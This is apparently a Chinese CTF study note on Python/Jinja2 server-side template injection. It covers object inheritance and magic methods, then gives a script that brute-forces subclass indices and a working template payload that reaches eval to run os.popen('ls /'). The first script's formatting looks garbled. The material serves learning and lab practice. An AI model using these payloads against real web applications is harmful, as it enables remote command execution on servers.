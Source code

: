# SSTI注入

> 参考 https://hello-ctf.com/HC_Web/ssti/

## 理论

* **对象** : 在 Python 中 **一切皆为对象** ，当你创建一个列表 `[]`、一个字符串 `""` 或一个字典 `{}` 时，你实际上是在创建不同类型的对象。
* **继承** : 我们知道对象是类的实例，类是对象的模板。在我们创建一个对象的时候，其实就是创建了一个类的实例，而在python中所有的类都继承于一个基类，我们可以通过一些方法，从创建的对象反向查找它的类，以及对应类父类。这样我们就能从任意一个对象回到类的端点，也就是基类，再从端点任意的向下查找。
* **魔术方法** : 我们如何去实现在继承中我们提到的过程呢？这就需要在上面Payload中类似 `__class__`的魔术方法了，通过拼接不同作用的魔术方法来操控类，我们就能实现文件的读取或者命令的执行了。

  ```
  __class__            类的一个内置属性，表示实例对象的类。
  __base__             类型对象的直接基类
  __bases__            类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__
  __mro__              查看继承关系和调用顺序，返回元组。此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
  ```

+ ![1711677856176](image/SSTI/1711677856176.png)
+ ![1711678423595](image/SSTI/1711678423595.png)
+ ![1711678437739](image/SSTI/1711678437739.png)

## Payload

```python
#使用 python 脚本 用于寻找序号url = "http://url/level/1"
def find_eval(url):
for i in range(500):
data = {
'code': "{{().class.bases[0].subclasses()["+str(i)+"].init.globals['builtins']}}",
}
res = requests.post(url, data=data, headers=headers)
if 'eval' in res.text:
print(data)
find_eval(url)
```

```python
 # 模板语法 _ 命令执行_eval
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    {% endif %}
{% endfor %}
```
